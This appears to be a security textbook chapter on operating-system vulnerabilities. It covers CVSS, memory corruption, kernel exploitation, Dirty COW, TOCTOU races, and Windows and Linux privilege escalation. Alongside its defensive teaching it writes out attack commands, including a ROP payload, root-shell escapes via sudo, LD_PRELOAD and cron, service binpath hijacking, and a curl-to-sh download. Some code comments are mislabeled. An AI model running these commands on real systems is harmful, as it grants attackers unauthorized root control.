

# Chapter 9 — Software Vulnerabilities in the OS Context

OS-level vulnerabilities are among the most consequential in security because they execute in the most privileged context and affect every application running on the system. A kernel bug can instantly grant an attacker root or SYSTEM privileges, bypassing every application-layer security control. This chapter examines the vulnerability lifecycle, memory corruption exploitation for privilege escalation, race conditions, logic flaws, and the tools and techniques used to discover and mitigate these vulnerabilities.

---

## 9.1 The Vulnerability Lifecycle

Understanding how vulnerabilities progress from discovery to exploitation and persistence helps defenders prioritize their response.



### 9.1.1 CVE and CVSS Scoring

The **Common Vulnerabilities and Exposures (CVE)** system provides a unique identifier for each publicly known vulnerability. The **Common Vulnerability Scoring System (CVSS v3.1)** quantifies severity across eight metrics:

| Metric | Options | Meaning |
|--------|---------|---------|
| Attack Vector (AV) | N/A/L/P | Network / Adjacent / Local / Physical |
| Attack Complexity (AC) | L/H | Low or High complexity to exploit |
| Privileges Required (PR) | N/L/H | None, Low, High privileges needed |
| User Interaction (UI) | N/R | No interaction or Required |
| Scope (S) | U/C | Unchanged or Changed (crosses privilege boundary) |
| Confidentiality (C) | N/L/H | Impact on data confidentiality |
| Integrity (I) | N/L/H | Impact on data integrity |
| Availability (A) | N/L/H | Impact on service availability |

```
CVE-2016-5195 (Dirty COW):
AV:L / AC:L / PR:L / UI:N / S:U / C:H / I:H / A:H
Base Score: 7.8 HIGH

CVE-2021-4034 (PwnKit - pkexec):
AV:L / AC:L / PR:L / UI:N / S:U / C:H / I:H / A:H
Base Score: 7.8 HIGH
```

---

## 9.2 Memory Corruption Vulnerabilities

### 9.2.1 Stack Buffer Overflow and Control Flow Hijacking

A classic stack overflow overwrites the saved return address (`EIP`/`RIP`) allowing an attacker to redirect execution:

```c
// Vulnerable program (Linux, 64-bit, no protections)
void vulnerable(char *input) {
    char buf[64];
    strcpy(buf, input);  // No bounds check!
}
// Stack layout: [buf 64 bytes][saved rbp 8 bytes][return addr 8 bytes]
// Overflowing buf by 80 bytes lets attacker overwrite return addr
```

Modern exploitation techniques when simple shellcode injection is blocked:

**ret2libc**: Instead of injecting shellcode, redirect execution to existing `system()` function in libc with `/bin/sh` as argument.

**Return-Oriented Programming (ROP)**: Chain together small instruction sequences ending in `ret` ("gadgets") found in the existing binary and libraries to build arbitrary computation without injecting new code.

```python
# ROP chain construction (pwntools example)
from pwn import *
elf = ELF('./vulnerable_binary')
rop = ROP(elf)
rop.call('system', [next(elf.search(b'/bin/sh'))])
payload = b'A' * 72 + bytes(rop)
```

### 9.2.2 Heap Exploitation

Modern kernel exploits frequently target heap structures:

- **Use-after-free (UAF)**: A kernel object is freed but a pointer to it remains; the attacker allocates a controlled object in the same memory and uses the dangling pointer to manipulate it.
- **Heap spray**: Allocate many objects with attacker-controlled content to increase probability that a dangling pointer points to attacker data.

```
Attack flow for kernel UAF:
1. Trigger free of kernel struct (e.g., network socket)
2. Spray heap with copies of attacker struct via slab allocator
3. Use dangling pointer to call function pointer → overwritten to shellcode
```

### 9.2.3 Kernel Exploitation Specifics

Exploiting kernel vulnerabilities differs from userland exploitation:

**ret2usr attack**: Before SMEP/SMAP, an attacker in kernel ROP chain could simply jump to user-space shellcode that calls `commit_creds(prepare_kernel_cred(0))` to elevate privileges:

```c
// Classic kernel privilege escalation shellcode
void __attribute__((regparm(3))) privesc_payload(void) {
    // prepare_kernel_cred(0) returns init task credentials
    // commit_creds applies them to current task
    commit_creds(prepare_kernel_cred(0));
}
```

**SMEP (Supervisor Mode Execution Prevention)**: CPU feature preventing the kernel from executing pages marked as user-accessible. Defeats ret2usr by causing a fault when kernel code jumps to user pages.

**SMAP (Supervisor Mode Access Prevention)**: Prevents kernel from reading/writing user-space memory directly without explicit `stac`/`clac` instructions. Makes kernel exploits significantly harder.

**KASLR (Kernel Address Space Layout Randomization)**: Randomizes the kernel base address at boot. Attackers must first leak a kernel address before building their ROP chain.

```bash
# Check kernel mitigations
cat /proc/cpuinfo | grep -E "smep|smap"
uname -r
# Check if KASLR is enabled
cat /proc/sys/kernel/randomize_va_space   # 2 = full ASLR
```

---

## 9.3 Race Conditions — TOCTOU and Dirty COW

### 9.3.1 TOCTOU (Time of Check to Time of Use)

A **TOCTOU race** occurs when a program checks a condition (the "check") and then uses a resource (the "use") assuming the condition still holds, but an attacker changes the condition between the two operations.

Classic `/tmp` race exploiting a SUID binary:

```bash
# Target: a SUID root program that does:
#   1. stat("/tmp/datafile") — check it's a regular file owned by user
#   2. open("/tmp/datafile") — open and write results (running as root)
#
# Attack:
while true; do
    ln -sf /tmp/datafile /tmp/datafile   # keep switching
    ln -sf /etc/passwd /tmp/datafile     # symlink to /etc/passwd
done
# Simultaneously run the SUID program — it may write to /etc/passwd
```

### 9.3.2 Dirty COW — CVE-2016-5195

**Dirty COW** is the most famous Linux race condition vulnerability, present in the kernel from 2007 to 2016. It exploited a race condition in the kernel's Copy-on-Write (COW) mechanism for memory-mapped files.

**How it worked:**

1. Map a read-only file (e.g., `/etc/passwd`) with `mmap(MAP_PRIVATE)`
2. The kernel creates a private COW mapping — the process cannot write to it
3. Race two threads:
   - Thread 1: `write()` to the mapping (triggers COW)
   - Thread 2: call `madvise(MADV_DONTNEED)` to drop the private copy
4. The race causes the kernel to write to the **original read-only file** instead of the private copy

```c
// Simplified Dirty COW exploit structure
// mmap /etc/passwd as PROT_READ | MAP_PRIVATE
map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);

// Thread 1: repeatedly write to mmap
void *madvise_thread(void *arg) {
    while(1) madvise(map, 100, MADV_DONTNEED);
}

// Thread 2: repeatedly write to /proc/self/mem at offset
void *procselfmem_thread(void *arg) {
    int f = open("/proc/self/mem", O_RDWR);
    while(1) {
        lseek(f, (off_t)map, SEEK_SET);
        write(f, newcontent, strlen(newcontent));
    }
}
// Eventual result: /etc/passwd overwritten with attacker's content
```

The fix: add a dirty bit check ensuring mmap write goes to the private copy, not the original.

---

## 9.4 Other Vulnerability Classes

### 9.4.1 Integer Overflow/Underflow

```c
// Vulnerable: integer overflow leads to small allocation
void *alloc_buffer(size_t num_items, size_t item_size) {
    // If num_items=0x20000000 and item_size=0x10:
    // 0x20000000 * 0x10 = 0x200000000 overflows 32-bit to 0x0
    size_t total = num_items * item_size;  // OVERFLOW!
    return malloc(total);  // malloc(0) returns tiny buffer
}
// Subsequent writes into this "large" buffer overwrite heap metadata
```

### 9.4.2 NULL Pointer Dereference in Kernel

If a kernel structure's function pointer is set to NULL and the kernel calls it, execution jumps to address 0x0. Before SMEP, an attacker could map userland data at address 0x0 (mmap NULL) with shellcode, gaining kernel execution:

```bash
# Check if mmap of address 0 is allowed (should be prevented)
cat /proc/sys/vm/mmap_min_addr   # Should be >= 65536
```

---

## 9.5 Logic Vulnerabilities

Not all vulnerabilities involve memory corruption. **Logic vulnerabilities** arise from incorrect assumptions in program flow:

- **Authentication bypass**: Checking the wrong condition, off-by-one in comparison
- **Incorrect privilege check**: `if (uid = 0)` instead of `if (uid == 0)` (assignment, not comparison)
- **Symbolic link following**: `open()` a path the attacker has symlinked
- **Environment variable injection**: `LD_PRELOAD`, `PATH`, `IFS` abuse

---

## 9.6 Windows Privilege Escalation Techniques

### 9.6.1 Unquoted Service Path

If a Windows service binary path contains spaces and is not quoted, Windows tries each space-delimited prefix as a potential executable:

```
Service binary path: C:\Program Files\My App\service.exe
Windows tries:
  C:\Program.exe               ← attacker places executable here!
  C:\Program Files\My.exe
  C:\Program Files\My App\service.exe
```

```powershell
# Find unquoted service paths (no quotes around paths with spaces)
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -notlike '"*"' -and $_.PathName -like '* *'
} | Select-Object Name, PathName
```

### 9.6.2 DLL Hijacking

Windows searches for DLLs in a predictable order. If an attacker can write a malicious DLL to a directory searched before the legitimate DLL location:

```
Search order (simplified):
1. Application directory
2. System32
3. Windows directory
4. Current directory
5. PATH directories
```

```powershell
# Identify DLL hijacking opportunities with Process Monitor
# Filter: Path ends with .dll + Result is "NAME NOT FOUND"
# Shows DLLs being searched that don't exist → attacker can place malicious one
```

### 9.6.3 Weak Service Permissions

```powershell
# Find services where current user can modify the binary
# Using accesschk (Sysinternals)
accesschk.exe -uwcqv "Users" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula

# If service has "SERVICE_CHANGE_CONFIG" permission:
sc.exe config VulnerableService binpath= "C:\Users\attacker\evil.exe"
sc.exe start VulnerableService
```

---

## 9.7 Linux Privilege Escalation Techniques

### 9.7.1 sudo Misconfiguration

```bash
# Enumerate sudo privileges
sudo -l

# Example dangerous sudo entries:
# (ALL) NOPASSWD: /usr/bin/find
# → sudo find / -exec /bin/bash -p \;   (spawns root shell)

# (ALL) NOPASSWD: /usr/bin/vim
# → sudo vim -c ':!/bin/bash'   (shell escape from vim)

# (ALL) NOPASSWD: /usr/bin/python3
# → sudo python3 -c 'import os; os.system("/bin/bash")'
```

### 9.7.2 SUID/SGID Binary Exploitation

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null   # SGID

# Check GTFOBins for known exploits: https://gtfobins.github.io
# Example: if /usr/bin/cp is SUID:
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
/tmp/rootbash -p   # -p preserves EUID
```

### 9.7.3 LD_PRELOAD Abuse

```bash
# If sudo allows running a program with env variables preserved:
# Defaults env_keep += LD_PRELOAD  (in /etc/sudoers)

# Compile a malicious shared library
cat > /tmp/evil.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
void _init() { setuid(0); setgid(0); system("/bin/bash"); }
EOF
gcc -shared -fPIC -o /tmp/evil.so /tmp/evil.c -nostartfiles
sudo LD_PRELOAD=/tmp/evil.so /usr/bin/find   # runs /bin/bash as root
```

### 9.7.4 Cron Job Exploitation

```bash
# Find world-writable scripts run by root cron
cat /etc/crontab
ls -la /etc/cron.* /var/spool/cron/
# If a script is writable by current user:
echo "chmod +s /bin/bash" >> /etc/cron.hourly/backup.sh
# Wait for cron to run → /bin/bash becomes SUID → bash -p gives root
```

### 9.7.5 Automated Enumeration Tools

```bash
# LinPEAS — comprehensive Linux privilege escalation checker
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Linux Exploit Suggester — matches kernel version to CVEs
./linux-exploit-suggester.pl
./les.sh

# Windows
.\winPEAS.exe
.\PowerUp.ps1; Invoke-AllChecks
```

---

## 9.8 Exploitation Mitigations Summary

| Mitigation | What It Stops | Bypass |
|-----------|--------------|--------|
| **ASLR** | Hardcodes addresses in exploits | Info leak, brute force (32-bit) |
| **NX/DEP** | Execute shellcode on stack/heap | ROP chains |
| **Stack Canaries** | Detect stack overflow before ret | Format string leaks, overwrite BSS |
| **RELRO** | GOT overwrites | Overwrite other writable regions |
| **SMEP** | ret2usr kernel attacks | ROP in kernel space |
| **SMAP** | Kernel reading user memory | `stac`/`clac` gadgets |
| **KASLR** | Hardcoded kernel addresses | Info leaks, timing side channels |
| **Seccomp** | Dangerous syscalls | Allowed syscall combinations |

---

## Key Terms

| Term | Definition |
|------|-----------|
| **CVE** | Common Vulnerabilities and Exposures — unique vulnerability identifier |
| **CVSS** | Common Vulnerability Scoring System — severity metric 0-10 |
| **Buffer Overflow** | Writing beyond allocated buffer, corrupting adjacent memory |
| **ROP** | Return-Oriented Programming — chaining existing code gadgets |
| **ret2libc** | Stack overflow technique redirecting to existing library functions |
| **Use-After-Free** | Accessing freed heap memory, potentially controlled by attacker |
| **Heap Spray** | Filling heap with controlled data to increase exploit reliability |
| **TOCTOU** | Time-of-Check to Time-of-Use race condition vulnerability |
| **Dirty COW** | CVE-2016-5195 — COW race giving write access to read-only files |
| **SMEP** | Supervisor Mode Execution Prevention — blocks kernel ret2usr |
| **SMAP** | Supervisor Mode Access Prevention — blocks kernel user-space reads |
| **KASLR** | Kernel Address Space Layout Randomization |
| **ret2usr** | Jumping from kernel ROP to user-space shellcode |
| **SUID** | Set-UID bit — binary runs with owner's effective UID |
| **Unquoted Service Path** | Windows privesc via spaces in unquoted service paths |
| **DLL Hijacking** | Placing malicious DLL earlier in Windows search order |
| **LinPEAS** | Automated Linux privilege escalation enumeration tool |
| **Integer Overflow** | Arithmetic wrapping producing unexpectedly small values |
| **LD_PRELOAD** | Linux env var loading shared library before others |
| **Privilege Escalation** | Gaining higher privileges than originally granted |

---

## Review Questions

1. **CVSS Analysis:** Look up CVE-2021-4034 (pkexec/PwnKit). Parse its CVSS vector string. Why does it have a Local attack vector but still score 7.8? What makes it particularly dangerous despite requiring local access?

2. **Stack Overflow Lab:** Compile the following program with protections disabled (`-fno-stack-protector -z execstack -no-pie`) and overflow the buffer to overwrite the return address. Use `gdb` and `pwntools` to find the offset and redirect execution to a shellcode or `system("/bin/sh")`.

3. **ROP Theory:** Explain why NX/DEP alone does not prevent exploitation of stack buffer overflows. Draw a stack diagram showing how a ROP chain works. What tool would you use to find ROP gadgets in a binary?

4. **Dirty COW Walkthrough:** Describe the exact race condition in CVE-2016-5195. Which kernel code path was vulnerable? What Linux version fixed it, and what was the fix?

5. **Linux Privesc Lab:** On a CTF-style Linux machine with a misconfigured `/etc/sudoers`, use `sudo -l` to enumerate sudo rights, then consult GTFOBins to escalate to root. Document each step including what you found and how you exploited it.

6. **Windows Privesc:** Using `accesschk.exe` and `sc.exe`, find a service with weak permissions in a Windows VM, modify its binary path to point to a reverse shell, and restart the service. What event IDs are generated?

7. **Mitigation Matrix:** For each of the following exploitation steps — shellcode injection, ROP chain, ret2usr, kernel UAF — list two mitigations that defend against it and one known bypass technique.

8. **Race Condition Lab:** Write a C program demonstrating a TOCTOU vulnerability using `/tmp` symlinks. Then patch your own program to close the race (hint: use `O_NOFOLLOW` or file descriptor-based operations instead of path-based ones).

9. **Tool Comparison:** Run both `LinPEAS` and `linux-exploit-suggester` on a Linux system. Compare their output. What kernel CVEs does the exploit suggester identify? What configuration weaknesses does LinPEAS find that the exploit suggester misses?

10. **Defense Design:** You are hardening a Linux web server. Design a comprehensive defense-in-depth strategy addressing: kernel hardening (sysctl settings), service privilege (capabilities, no SUID), filesystem permissions, automated vulnerability scanning, and patch management cadence.

---

## Further Reading

1. Andriesse, D. (2019). *Practical Binary Analysis*. No Starch Press. — Hands-on exploitation and binary analysis.
2. Koziol, J., et al. (2004). *The Shellcoder's Handbook*. Wiley. — Classic exploitation techniques reference.
3. Phrack Magazine. (Multiple issues). *The Art of Exploitation* articles. https://phrack.org — Primary source for exploitation research.
4. Corbet, J. (2016). "Dirty COW: a trivial kernel privilege escalation." *LWN.net*. — Technical analysis of CVE-2016-5195.
5. OWASP. (2023). *Testing Guide: OS Command Injection and Privilege Escalation*. https://owasp.org/www-project-web-security-testing-guide/
